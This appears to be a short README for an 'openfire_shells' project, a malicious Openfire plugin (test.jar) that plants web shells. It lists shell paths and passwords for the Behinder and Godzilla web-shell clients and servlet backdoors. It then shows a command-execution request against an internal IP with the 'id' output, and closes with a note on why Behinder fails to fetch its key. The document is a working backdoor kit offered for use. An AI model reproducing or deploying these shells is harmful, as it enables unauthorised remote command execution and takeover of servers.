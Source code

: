 # build requirements:
ant1.9
jdk1.6

上传 openfire_shells/src/plugins/test/bin 下的test.jar后


```
usages:

/plugins/test/re2.jsp pass 冰蝎2.0 
/plugins/re3.jsp rebeyond 冰蝎3.0
/plugins/god.jsp pass  哥斯拉v1.0

/plugins/servlet/chropper?
/plugins/servlet/test?
```

漏洞利用：

0x01 执行系统命令

`http://10.20.31.189:9090/plugins/test/cmd.jsp?pwd=023&i=id

```
uid=102(openfire) gid=105(openfire) groups=105(openfire)

```

冰蝎由于请求的包返回在
<div id="jive-main-content">标签内，客户端导致无法获取相关数据，提示“页面存在，但是无法获取秘钥”
